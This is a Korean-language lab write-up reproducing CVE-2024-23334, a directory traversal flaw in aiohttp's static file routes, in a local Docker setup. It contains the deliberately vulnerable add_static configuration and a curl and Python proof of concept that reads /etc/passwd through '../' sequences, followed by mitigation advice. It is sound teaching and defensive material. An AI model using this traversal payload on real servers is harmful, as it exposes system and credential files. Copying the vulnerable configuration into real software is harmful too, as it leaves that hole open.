

# CVE-2024-23334 aiohttp Directory Traversal

## 취약점 요약

CVE-2024-23334는 Python 비동기 HTTP 프레임워크인 aiohttp에서 발생한 Directory Traversal 취약점이다.

aiohttp로 웹 서버를 구성하고 정적 파일 라우트를 사용할 때 follow_symlinks=True 옵션이 설정되어 있으면, 취약한 버전에서는 요청된 파일이 정적 파일 루트 디렉터리 내부에 있는지 충분히 검증하지 않는다.

이로 인해 공격자는 조작된 경로를 요청하여 원래 공개되어서는 안 되는 서버 내부 파일에 접근할 수 있다.

본 실습에서는 /static/ 경로를 통해 정적 파일을 제공하는 취약한 aiohttp 서버를 Docker 환경으로 구성하고, /etc/passwd 파일이 노출되는 것을 확인한다.

## 환경 구성

본 실습 환경은 Docker Compose를 사용하여 구성한다.

사용한 주요 환경은 다음과 같다.

* Python 3.11
* aiohttp 3.9.1
* Docker
* Docker Compose

## 취약 조건

본 취약점이 재현되기 위한 조건은 다음과 같다.

* 취약한 버전의 aiohttp 사용
* 정적 파일 라우트 사용
* `follow_symlinks=True` 옵션 사용
* 공격자가 조작된 경로를 요청할 수 있음

본 실습에서는 aiohttp==3.9.1 버전을 사용한다.

취약한 설정은 다음과 같다.

python
app.router.add_static(
    "/static/",
    path=BASE_DIR / "static",
    follow_symlinks=True
)

위 설정으로 인해 /static/ 경로에서 정적 파일을 제공하지만, 취약한 버전에서는 조작된 경로를 통해 정적 파일 디렉터리 밖의 파일에 접근할 수 있다.

## 재현 절차

### Docker 환경 실행

다음 명령어로 취약 환경을 빌드하고 실행한다.

docker compose up -d --build

### 정상 페이지 확인

curl http://127.0.0.1:8080/

예상 결과는 다음과 같다.

aiohttp CVE-2024-23334 vulnerable lab
Try: /static/hello.txt

### 정상 정적 파일 접근 확인

curl http://127.0.0.1:8080/static/hello.txt

예상 결과는 다음과 같다.

hello from static directory

### 취약점 재현

다음 명령어로 정적 파일 디렉터리 밖의 /etc/passwd 파일 접근을 시도한다.

curl --path-as-is http://127.0.0.1:8080/static/../../../../../etc/passwd

성공 시 /etc/passwd 파일 내용이 출력된다.

예상 결과 예시는 다음과 같다.

>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

## PoC 코드

본 실습의 핵심 PoC 명령은 다음과 같다.

curl --path-as-is http://127.0.0.1:8080/static/../../../../../etc/passwd

--path-as-is 옵션은 curl이 URL 경로의 ../를 정규화하지 않고 그대로 서버에 전송하도록 한다.

이를 통해 /static/ 경로 아래의 파일이 아니라 상위 디렉터리로 이동한 뒤 /etc/passwd 파일에 접근하는 요청을 서버에 전달할 수 있다.

보조 PoC 파일인 poc.py는 다음과 같다.

import requests

target = "http://127.0.0.1:8080/static/../../../../../etc/passwd"

res = requests.get(target)
print(res.text)

## 실행 결과

정상 정적 파일 접근 결과는 다음과 같다.

curl http://127.0.0.1:8080/static/hello.txt

> 
hello from static directory

취약점 재현 결과는 다음과 같다.

curl --path-as-is http://127.0.0.1:8080/static/../../../../../etc/passwd

> 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...

실행 결과 화면은 다음과 같다.

## 대응 방안

1. aiohttp를 취약하지 않은 버전으로 업데이트한다.
2. 정적 파일 제공 시 `follow_symlinks=True` 옵션 사용을 피한다.
3. 정적 파일 제공 경로를 최소 권한으로 제한한다.
4. 외부 입력으로 전달되는 경로에 대해 상위 디렉터리 이동 문자열을 검증한다.
5. 민감한 시스템 파일이 웹 서버를 통해 노출되지 않도록 파일 권한과 배치 구조를 점검한다.